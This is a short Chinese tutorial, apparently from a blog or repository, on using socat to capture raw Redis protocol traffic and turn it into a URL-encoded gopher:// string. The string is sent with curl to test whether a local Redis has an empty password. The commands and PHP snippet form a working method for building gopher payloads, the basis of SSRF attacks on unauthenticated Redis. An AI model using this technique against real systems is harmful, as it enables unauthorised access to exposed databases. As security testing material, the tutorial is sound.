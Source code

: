 ## 运用gopher 和 socat 进行网络渗透

---

socat是一个多功能的网络工具，名字来由是“Socket CAT”，可以看作是netcat的N倍加强版，socat 的官方网站：
[http://www.dest-unreach.org/socat/](http://www.dest-unreach.org/socat/)
网上搜到一个详细的[pdf文档](http://run.qixingyue.com/gopher/socat.pdf)

* 安装办法:

`$ yum install socat -y `

* 映射服务端口，本实例用redis举例，测试的是redis 空密码:

`$ socat -v tcp-listen:6377,fork tcp4:localhost:6379`

* 按照redis的方式访问6377端口，进行set,get 操作，*get到set的值，则认为是空密码*

`$ redis-cli -h localhost -p 6377 `

`$ set a hihackworld`

`$ get a `

* 在之前的socat命令运行中获得输入:

<pre>
*3\r
$3\r
set\r
$1\r
a\r
$11\r
hihackworld\r
*2\r
$3\r
get\r
$1\r
a\r
</pre>

* 运用任何一种熟悉的语言,比如php，对输入进行urlencode:
<pre>
$message = "*3\r
$3\r
set\r
$1\r
a\r
$11\r
hihackworld\r
*2\r
$3\r
get\r
$1\r
a\r
";
$gopherstr = "gopher://localhost:6379/_" . urlencode($message) ;
echo $gopherstr;
</pre>

* 运用curl组合gopher串进行测试:

`$ curl -s <$gopherstr>`

* 获取到输出该网络流的输出:

<pre>
+OK
$11
hihackworld
</pre>
